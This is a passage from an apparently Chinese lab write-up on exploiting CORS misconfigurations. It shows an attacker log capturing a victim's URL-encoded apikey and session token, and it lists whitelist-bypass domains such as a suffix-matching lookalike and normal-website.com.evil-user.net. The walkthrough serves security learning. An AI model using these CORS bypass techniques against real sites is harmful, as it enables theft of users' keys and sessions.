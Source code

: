 ```
/log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22sYL4DooN1O5ONOBC6OWmUH7if7HCqhwq%22,%20%20%22sessions%22:%20[%20%20%20%20%227mRUxaYkkZBELbmzOGHpoqTZB5rUXjZg%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
```

url解码后得到受害者 `apikey` 字段信息

```
sYL4DooN1O5ONOBC6OWmUH7if7HCqhwq
```

## Lab2

### 前置

#### 解析原始标头时出错

1、一些支持从多个来源访问的应用程序通过使用允许来源的白名单来实现这一点。当接收到CORS请求时，将提供的来源与白名单进行比较。如果来源出现在白名单上，则它将反映在Access-Control-Allow-Origin报头中，以便授予访问权限

```
如应用程序接收正常请求，如：
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
 
应用产品将对照其允许的来源列表检查提供的来源，如果来源在列表中，则按如下方式反映来源：
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

2、实施CORS原点白名单时经常会出现错误。一些组织决定允许从其所有子域（包括未来尚不存在的子域）进行访问。并且一些应用程序允许从各种其他组织的域（包括它们的子域）进行访问。这些规则通常通过匹配URL前缀或后缀，或使用正则表达式来实现。实现中的任何错误都可能导致访问权限被授予非预期的外部域。

```
1、假设某个应用程序赠款对以下列字符结尾的所有域的访问权限：
normal-website.com
 
攻击者可能能够通过注册以下域获得访问权限：
hackersnormal-website.com
 
2、假设应用程序赠款对以开头的所有域的访问权限
normal-website.com
 
攻击者可能能够使用以下域获得访问权限：
normal-website.com.evil-user.net
```

#### 白名单中的空原点值

1、原始标头的规范支持值null
